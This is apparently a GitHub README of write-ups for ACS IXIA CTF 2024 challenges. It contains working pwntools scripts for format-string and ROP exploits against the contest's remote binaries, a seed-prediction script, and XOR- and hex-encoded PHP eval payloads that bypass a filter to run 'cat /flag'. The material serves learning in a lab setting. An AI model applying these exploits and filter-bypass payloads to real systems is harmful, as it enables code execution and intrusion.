# ACS-IXIA-CTF-2024---Writeups
Write-ups for the solved tasks at ACS IXIA CTF 2024

* [**Table of Contents**[^4]](#acs-ixia-ctf-2024---writeups)
    * [**Lost (75 pts, 10 solves): pwn**](#lost-(75-pts,-10-solves)-pwn)
        * [Flag](#flag)
        * [Description](#description)
        * [Summary](#summary)
        * [Solve](#solve)
    * [**Lost_v2 (100 pts, 6 solves): pwn**](#lost_v2-(100-pts,-6-solves)-pwn)
        * [Flag](#flag)
        * [Description](#description)
        * [Summary](#summary)
        * [Solve](#solve)
    * [**Lost cassette (100 pts, 13 solves): pwn**](#lost-cassette-(100-pts,-13-solves)-pwn)
        * [Flag](#flag)
        * [Description](#description)
        * [Summary](#summary)
        * [Solve](#solve)
    * [**Return 4 (125pts, 11 solves): pwn**](#return-4-(125pts,-11-solves)-pwn)
        * [Flag](#flag)
        * [Description](#description)
        * [Summary](#summary)
        * [Solve](#solve)
    * [**Culligan (75 pts, 14 solves): web**](#culligan-(75-pts,-14-solves)-web)
        * [Flag](#flag)
        * [Description](#description)
        * [Summary](#summary)
        * [Solve](#solve)
    * [**Oysters (50 pts, 17 solves): misc**](#oysters-(50-pts,-17-solves)-misc)
        * [Flag](#flag)
        * [Description](#description)
        * [Summary](#summary)
        * [Solve](#solve)
    * [_Sources_](#sources)

## Lost (75 pts, 10 solves): pwn

### Flag
ACS_KEYSIGHT_CTF{d33p_in_the_dark}

### Description


We are given an archieve containing `lost` binary, a linker and `libc` library.

### Summary
Format string vulnerability and chosen address is overwritten

### Solve
This is the source code of the decompiled binary using IDA free:



In short, the `main` function gets input from the user, it uses `printf` function without format specifiers to print it and makes a check against a condition to print the flag.

We can easily leak addresses from the stack, thanks to the format vulnerability. 
Trying this out, we can see that our input ‘AAAAAA’ (0x41414141) is stored in the 12th parameter of the printf. 



By knowing this offset, we can also use the format string vulnerability to write at any address the value we want. Also it helps that the binary is compiled as PIC (position independent code).

Variable `dword_40408c` is found at 0x40408c and we need to overwrite it to check the condition. 
I wrote a script to automate this process and used a pwntools library to exploit the format vulnerability. 

```python
from pwnlib.fmtstr import FmtStr, fmtstr_split, fmtstr_payload
from pwn import *
context.clear(arch = 'amd64')

def send_payload(payload):
    	s = remote('vmx.cs.pub.ro',31500)
    	s.sendline(payload)
    	r = s.recvline()
    	return r

myoffset = FmtStr(execute_fmt=send_payload).offset
print(myoffset)
writes = {0x40408C: 0x1025544}

payload = fmtstr_payload(myoffset, writes, numbwritten=0)
print(payload)

s = remote('vmx.cs.pub.ro',31500)
s.sendline(payload)
s.interactive()

```
***

## Lost_v2 (100 pts, 6 solves): pwn

### Flag
ACS_KEYSIGHT_CTF{obliv10n_aw4ait2}

### Description
Same thing as `lost` task, except it is compiled for ARM

### Summary
Format string vulnerability

### Solve
This task is very similar to the previous one, except it’s compiled for the ARM architecture and it’s stripped. 
This is the source code using Ghidra to decompile it:



Another thing that has changed is the address where we want to write at. This is the script which automates our exploit (**note**: I calculated the offset the same way I showed from the `lost` task):

``` python
from pwnlib.fmtstr import FmtStr, fmtstr_split, fmtstr_payload
from pwn import *
context.clear(arch = 'aarch64')
def send_payload(payload):
    	s = remote('vmx.cs.pub.ro',31600)
    	s.sendline(payload)
    	r = s.recvline()
    	return r

offset = 17
writes = {0x0494060: 0x1025544}

payload = fmtstr_payload(offset, writes, numbwritten=0)
print(payload)
s = remote('vmx.cs.pub.ro',31600)
s.sendline(payload)
s.interactive()
```

***

## Lost cassette (100 pts, 13 solves): pwn

### Flag
ACS_KEYSIGHT_CTF{saf3r_th4n_cpp}

### Description


### Summary
Simple ROP exploit

### Solve
The source code from `main` function using IDA to decompile it:




It looks like it’s a fragment from Go language code. Basically, it reads 512 bytes from stdin and checks against a condition to call the `main_win` function.
`Main_win` function:




It checks that its first parameter `a` to be 0x539 in order to call the syscall for reading our flag. 
From line 58 `main` function, we had some sort of red herring to call the win function, but it’s useless because the first parameter which it’s given  wouldn't satisfy the condition.
So simple buffer overflow using ROP chain it is!

First step.. Finding the offset for the buffer. We can do it dynamically using gdb-peda. Breakpoint on 0x00000000048BEB8 (where the call for `bufio__ptr_Reader_Read` starts), `pattc 1000` and give it as input. `Continue` and then `patts` to see the offset (distance from old RBP) where our program received Segfault. 



To make our ROP chain, we need a gadget for RAX register to overwrite the first parameter for the ‘win’ function, before we call it. I used ROPgadget tool for that.



After we complete our ROP chain, getting the flag is only a matter of seconds. This is a script to automate this process:

``` python
from pwn import *
"""
io = gdb.debug("./lost_cassette", '''
b * 0x00000000048BEB8
c
''')
"""
#io = process('./lost_cassette')
io = remote('vmx.cs.pub.ro',31400)

#    gadget for pop rax; ret;
pop_rax_ret = 0x000000000040c8c4
win_fc = 0x00000000048BD00

#    constructing the payload
payload = b''

# RBP is at 32
# RBP + 8 = 32 + 8 = 40 (ret address on x86_64)
offset = 40

payload += offset * b'A'
payload += p64(pop_rax_ret)
payload += p64(0x539)
payload += p64(win_fc)

io.recvline()
io.send(payload)
io.interactive()

```
***

## Return 4 (125pts, 11 solves): pwn

### Flag
ACS_KEYSIGHT_CTF{c2VlZHMgYXJlIGltcG9ydGFudAo}

### Description


### Summary
srandom(time(null))

### Solve
The source code from `main` function:



Looks pretty straightforward that we are particularly interested in `create_secret` function in order to retrieve the flag.
`Create_secret` func:



This function is calling srandom(time(NULL)). 

>  _Man srandom_

> _The srandom() function sets its argument as the seed for a new sequence of pseudo-random integers to be returned by random(). These sequences are repeatable by calling srandom() with the same seed value.
In short, our random number generator seeds to the current time._

Luckily, we can call C functions directly from a python script. If we apply the same logic for setting the seed and generate the random number at the same time with the remote, the result will be the same number. This is the script to automate the process:

``` python
import ctypes
from pwn import *

io = remote('vmx.cs.pub.ro',37100)
libc = ctypes.CDLL('/lib/x86_64-linux-gnu/libm.so.6')
libc.srand(libc.time(None))
secret = libc.rand()
io.sendline(str(secret).encode())
io.interactive()

```
## Culligan (75 pts, 14 solves): web

### Flag
ACS_IXIA_CTF{f1lt3rinG_mIghT_Not_be_dat_effectiv3}

### Description
"Can you bypass my filter?"

### Summary

Eval vulnerability in php

Bypass php filter for eval

### Solve
The web challenge presents itself with the source code:



The vulnerability in this piece of code lies in using `eval` command from the parameter it gets as input. 

However, there is a filter for any bash command you could think of, which makes it harder to bypass it. But definitely not impossible!
Tried a bunch of things, and I got 2 possible solutions:

1. **XOR representation** for the string i want to input 

Cool that we can create strings from XOR functions, so no letters needed!
I used a script to automate xor processing (adapted from[^1])

``` python
commands = ['cat /flag', 'system']
charset = "!#$%()*+,-./:;<=>?@[]^_{|}~"

for command in commands:
	xored = ""

	for i in command:
    	found = False
    	for j in charset:
        	for k in charset:
            	if ord(j)^ord(k) == ord(i):
                	xored += ".('%s'^'%s')" % (j,k)
                	found = True
                	break
        	if found:
            	break

    	if not found:
        	xored += ".'%s'" % i

	print("%s = %s" % (command, xored[1:]))
```
So if we want to execute **`(system)(cat /flag);`**, we can use this payload:
```/?culligan=(  ('('^'[').('$'^']').('('^'[').(')'^']').('%'^'@').('-'^'@')   )	(  ('#'^'@').('!'^'@').(')'^']').('['^'{').'/'.(';'^']').(','^'@').('!'^'@').(':'^']')  );```

Of course, encoded as URL, so the final form is:

__Final URL__

_GET /?culligan=%28%20%20%28%27%28%27%5e%27%5b%27%29%2e%28%27%24%27%5e%27%5d%27%29%2e%28%27%28%27%5e%27%5b%27%29%2e%28%27%29%27%5e%27%5d%27%29%2e%28%27%25%27%5e%27%40%27%29%2e%28%27%2d%27%5e%27%40%27%29%20%20%20%29%20%20%20%20%28%20%20%28%27%23%27%5e%27%40%27%29%2e%28%27%21%27%5e%27%40%27%29%2e%28%27%29%27%5e%27%5d%27%29%2e%28%27%5b%27%5e%27%7b%27%29%2e%27%2f%27%2e%28%27%3b%27%5e%27%5d%27%29%2e%28%27%2c%27%5e%27%40%27%29%2e%28%27%21%27%5e%27%40%27%29%2e%28%27%3a%27%5e%27%5d%27%29%20%20%29%3b%0a_

2. **Hex representation** for `(system)(cat /flag);` string

```$a="\x73\x79\x73\x74\x65\x6D";die($a("\x63\x61\x74\x20\x2F\x66\x6C\x61\x67"));```

* $a is a variable in python, used to store the string `system` (in hex). 

* `die()` is equivalent to the `exit()` function.

* What I am doing is simply calling $a with `flag` parameter (also in hex)

__Final URL__

_GET /?culligan=%24%61%3d%22%5c%78%37%33%5c%78%37%39%5c%78%37%33%5c%78%37%34%5c%78%36%35%5c%78%36%44%22%3b%64%69%65%28%24%61%28%22%5c%78%36%33%5c%78%36%31%5c%78%37%34%5c%78%32%30%5c%78%32%46%5c%78%36%36%5c%78%36%43%5c%78%36%31%5c%78%36%37%22%29%29%3b%0a_



***

## Oysters (50 pts, 17 solves): misc

### Flag
acs_ixia_ctf{what_a_life_do_these_fish_have}

### Description
All we get for this challenge is a secret message:

```i had ａ ｇrｅａt daｙ at tｈe ｂｅaсh! 
ⅰ was eaｔｉｎｇ oysterｓ wｉtｈ chaｍｐaｇｎe! #sunsｈiｎe #myduｂaⅰ #fitｎessｉｓｍｙｐaｓｓiｏn #lіkesfｏfοｌlｏｗez                  
```
### Summary
OSINT to decode secret message

### Solve
WIsh I could’ve given you a strategy for solving this challenge, but unfortunately there is none. Personally, I consider this task more of an OSINT, rather than misc. 

I noticed that unicode characters had modifications, I tried to remove them or show them, but no interesting result.
After searching a bunch of decoding techniques[^2], using the crypto key _oysters_ or something related to any of thehashtags, none of these worked either. 

Assuming that was a twitter post and thinking maybe it’s a stegano related task, I searched `stegano twitter unicode` and the first result was a link[^3].
Interesting that a part of my secret message was already there as an example:



Pasted the whole secret message and here is the flag



***

## Sources
[^1]: https://joshuanatan.medium.com/root-me-web-server-php-eval-f77584cae128
[^2]: https://www.dcode.fr/ 
[^3]: https://holloway.nz/steg/
[^4]: Automated generated TOC: https://github.com/Relex12/Markdown-Table-of-Contents.git
